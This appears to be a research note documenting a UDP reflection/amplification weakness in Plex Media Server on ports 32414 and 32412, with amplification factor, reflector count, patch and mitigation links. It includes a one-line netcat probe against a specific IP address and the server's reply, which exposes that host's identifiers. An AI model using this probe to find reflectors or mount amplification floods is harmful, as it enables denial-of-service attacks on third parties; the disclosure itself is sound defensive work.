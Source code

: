 # Plex Media Server

## Port: **32414**, **32412**

## Proto: **UDP**

## Amplification factor: **~10x**

## Reflector count: **~24,550 (Feb 2021 Post-patch)**

---

## Patch released! <https://forums.plex.tv/t/plex-media-server/30447/396>

---

### Malformed requests

- Plex Media Server seems to respond with full HTTP 200 response when even a single character "M" from the Simple Service Discovery well-formed probe "M-SEARCH \* HTTP/1.1" is sent.
- This leads to **only 1 byte request responding with an average of 260 bytes**, leading to an amplification factor of ~10x.

### Example request/response

- > ~# echo -ne '\x4d' |nc -u 75.133.123.68 32414
      	<pre>
      	HTTP/1.0 200 OK
      	Content-Type: plex/media-server
      	Host: 5751fff746f9471faf39a071936549c4.plex.direct
      	Name: @Raflix
      	Port: 32400
      	Resource-Identifier: 496050be21439b3f8f6b2026152ff976433b8e18
      	Updated-At: 1570103260
      	Version: 1.18.0.1846-f62172e99
      	</pre>

### Mitigations

- https://github.com/RasPlex/RasPlex/issues/95
- https://forums.plex.tv/t/plex-flooding-32414-and-32412/65443/2
